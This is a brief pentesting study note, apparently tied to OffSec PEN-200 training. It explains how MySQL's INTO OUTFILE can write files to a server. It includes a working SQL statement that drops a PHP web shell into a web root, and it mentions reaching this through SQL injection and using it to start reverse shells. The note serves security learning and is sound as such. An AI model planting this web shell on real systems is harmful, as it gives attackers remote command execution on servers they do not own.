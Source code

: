 # Exploiting MySQL

**author**:: Nathan Acks  
**date**:: 2022-08-03

You can "upload" reverse shells using MySQL using `INTO OUTFILE`:

```sql
SELECT '<?php system($_GET["cmd"]); ?>' INTO OUTFILE '/var/www/html/cmd.php';
```

The path may require some brute-forcing or additional reconnaissance; sometimes you can force an error to return a (potentially) writeable path. Depending on how the application you're attacking is configured, it may be possible to exploit this via SQLi.

This can be used to bootstrap reverse shells.

* [2022-08-03 - OffSec Live: PEN-200 & AWS Deep Dive](../log/2022-08-03-offsec-live-pen-200-and-aws-deep-dive.md)
* [SQL Injection](sql-injection.md)
